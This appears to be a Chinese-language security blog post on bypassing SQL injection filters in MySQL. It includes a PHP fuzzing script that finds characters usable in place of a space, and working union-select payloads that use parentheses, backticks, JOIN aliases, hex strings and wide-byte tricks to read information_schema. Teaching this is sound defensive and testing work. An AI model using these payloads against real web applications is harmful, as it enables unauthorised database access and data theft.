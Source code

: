 # SQL注入绕过过滤

[2018-11-25]()

## [](#前言 "前言")前言

SQL注入经常会遇到过滤的问题，某些关键字被过滤导致注入无法进行下去，这里就总结一下常见的绕过过滤的方法。（本文参考Freebuf文章）

过滤空格应该是最常见的防御措施了，替换空格的方法有很多：

#### [](#1-替换空格 "1. /**/替换空格")1\. /\*\*/替换空格

![](1.png)

### [](#2-0x0a字符替换空格 "2. 0x0a字符替换空格")2\. 0x0a字符替换空格

注意:按住alt键+小键盘输入10再松开alt键即可在控制台中输入ascii字符0x0a  
![](2.png)

### [](#3-0x0b "3. 0x0b")3\. 0x0b

注意:按住alt键+小键盘输入11再松开alt键即可在控制台中输入ascii字符0x0b

![](3.png)

### [](#4-0x0c "4. 0x0c")4\. 0x0c

![](4.png)

### [](#5-0x0d "5. 0x0d")5\. 0x0d

使用0x0d号字符替换空格，注意:按住alt键+小键盘输入13再松开alt键即可在控制台中输入ascii字符0x0d,但因为在控制台中一旦输入0x0d，就会执行指令，所以这里只在union前输入了一次。

![](5.png)

* * *

做到这里会不会想到其他可以替换空格的字符呢，fuzz测试一下：

```
<?php
$mysqli = new mysqli('localhost', 'root', '', 'mysql');
if ($mysqli->connect_errno) {
    die("could not connect to the database:\n" . $mysqli->connect_error);
}
$i=0;
while($i++<256){
    $sql = "select host,user from user where user='a'".chr($i)."union".chr($i)."select 1,2;";
    $res = $mysqli->query($sql);
    if ($res) {
        echo "Ok!:$i:".chr($i)."<br>";
    }    
}
$mysqli->close();
?>
```

将代码放入网页中访问，显示：  
![](6.png)

通过测试可以发现，除了刚才用的还有9号\(tab\)和160号字符也可以替换空格。  
32号本来就是空格，35是注释符

* * *

然后如果这些都被过滤了，有没有别的办法

### [](#1-利用括号、反引号 "1. 利用括号、反引号")1\. 利用括号、反引号

![](7.png)  
select host,user from user where user=’a’union\(select`table_name`,`table_type`from`information_schema`.`tables`\);  
利用括号、反引号来隔离sql关键词与库名表名列名，完成了注入。

### [](#2-join语句和子查询的别名来替换逗号 "2. join语句和子查询的别名来替换逗号")2\. join语句和子查询的别名来替换逗号

![](8.png)  
在这个语句中，我们利用join与别名，成功的避免使用逗号实现了注入：

```
select host,user from user where user='a'union(select*from((select`table_name`from`information_schema`.`tables`where`table_schema`='mysql')`a`join(select`table_type`from`information_schema`.`tables`where`table_schema`='mysql')b));
```

像这种嵌套语句，好像可以多次嵌套，比如：

```
select*from(select'1')a2
select*from(select*from(select'1')a2)a3
select*from(select*from(select*from(select'1')a2)a3)a4
select*from(select*from(select*from(select*from(select'1')a2)a3)a4)a5
```

### [](#3-绕过反引号 "3. 绕过反引号")3\. 绕过反引号

在库名、表名、列名不带空格、_、\{、\}等特殊符号的情况下，语句中的反引号也可以用括号代替  
select host,user from user where user=’a’union\(select_from\(\(\(select\(table\_name\)from\(information\_schema.tables\)where\(table\_schema\)=’mysql’\)a\)join\(select\(table\_type\)from\(information\_schema.tables\)where\(table\_schema\)=’mysql’\)b\)\);

### [](#4-过滤单引号 "4. 过滤单引号")4\. 过滤单引号

**如果存在宽字节注入**，那么即使过滤了单引号，我们也可以注入，这时语句变成这样：  
select host,user from user where user=’a\?’union\(select\*from\(\(\(select\(table\_name\)from\(information\_schema.tables\)where\(table\_schema\)=0x6D7973716C\)a\)join\(select\(table\_type\)from\(information\_schema.tables\)where\(table\_schema\)=0x6D7973716C\)b\)\);

### [](#5-其他技巧 "5.其他技巧")5.其他技巧

某些web应用只取查询结果的第一行，这时可以使用group\_concat\(\)来获取完整数据,例如：

```
select host,user from user where user='a?'union(select*from(((select(group_concat(table_name))from(information_schema.tables)where(table_schema)=0x6D7973716C)a)join(select(table_type)from(information_schema.tables)where(table_schema)=0x6D7973716C)b));
```

也可以多加几个条件判断来逐行获取所要的数据：

```
select host,user from user where user='a?'union(select*from(((select(table_name)from(information_schema.tables)where(table_schema)=(0x6D7973716C)and(table_name)!=(0x6462)and(table_name)!=(0x67687478).......)a)join(select(0x77)from(information_schema.tables)where(table_schema)=0x6D7973716C)b));
```
